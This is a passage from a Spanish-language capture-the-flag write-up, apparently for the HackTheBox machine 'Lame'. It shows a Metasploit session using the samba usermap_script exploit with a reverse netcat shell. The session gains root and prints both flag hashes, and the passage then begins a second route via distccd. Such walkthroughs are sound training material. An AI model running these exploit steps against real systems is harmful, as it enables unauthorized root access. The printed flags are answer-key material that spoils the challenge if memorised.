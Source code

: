 ```sh
Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.136    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set LHOST 10.10.14.17
LHOST => 10.10.14.17
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:39540) at 2024-02-06 14:04:38 +0100

id
uid=0(root) gid=0(root)
cd /root/        
cat root.txt
e8054f4c57ea3d5ae1ceb5a593287746
cd /home
ls
ftp
makis
service
user
cat makis/user.txt
0d3e56ee1260bca040b6a9610e5205f7
```

Y ahí tenemos las dos flags.


## Otra vía de explotación

Vimos en el reconcimiento por nmap que el puerto **3632** estaba abierto:

```plaintext
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```
**distcc** es una herramienta para acelerar la compilación del código fuente mediante el uso de computación distribuida en una red informática. Con la configuración correcta, distcc puede reducir drásticamente el tiempo de compilación de un proyecto.
